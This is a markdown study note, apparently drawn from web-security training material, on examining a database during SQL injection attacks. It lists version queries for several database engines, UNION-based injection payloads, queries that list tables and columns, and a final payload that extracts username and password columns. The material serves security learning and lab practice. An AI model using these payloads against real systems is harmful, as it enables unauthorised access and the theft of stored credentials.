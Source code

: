    ## Examining the database in SQL injection attacks
  
When exploiting [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains.  
   
**A.Querying the database type and version**  

   		
 'Database type' | 'Query'
|--|--|
| Microsoft, MySQL	|	SELECT @@version |
|Oracle 		|			SELECT * FROM v$version
|PostgreSQL 	|			SELECT version() |

  
  
For example, you could use a `UNION` attack with the following input after identifying number of columns:  
<font color=ligreen>' UNION SELECT @@version--  

NOTE: You should try and use url encoded # also, if -- doesn't output the result  
  
**B. Listing the contents of the database**  
  
   
Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.  
You can query `information_schema.tables` to list the tables in the database:  
  
<font color=ligreen>SELECT * FROM information_schema.tables  
  
This returns output like the following:  
	
- TABLECATALOG |	 TABLESCHEMA | 	TABLENAME  | 	TABLETYPE
|:--: |:--:|:--:|--:|
MyDatabase | dbo | Products | BASE TABLE  |
MyDatabase| dbo |Users |BASE TABLE  |
MyDatabase |dbo |Feedback |BASE TABLE  |
  
This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.  
  
You can then query `information_schema.columns` to list the columns in individual tables:  
SELECT * FROM information_schema.columns WHERE table_name = 'Users'  
  
This returns output like the following:  


-	
|TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE | 
|:--:|:--:|:--:|:--:|:--:|
|MyDatabase | dbo | Users| UserId | int  |
MyDatabase| dbo| Users| Username| varchar  
MyDatabase| dbo| Users| Password| varchar  


	
This output shows the columns in the specified table and the data type of each column.  
  
   
NOTE: You can search information_schema.tables postgresql and information_schema.columns postgresql on google  
After finding the users tablename and the username column and password column inside that tablename  
	Use <font color=ligreen> '+UNION+SELECT+usercoulmnname,passwordcolumnname+FROM+tablename--  </font>
in-order to retrieve the actual data of that username column and password column.  
  
  
 Equivalent to information schema on Oracle  
  
On Oracle, you can obtain the same information with slightly different queries.  
You can list tables by querying `all_tables`:  
SELECT * FROM all_tables  
And you can list columns by querying `all_tab_columns`:  
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
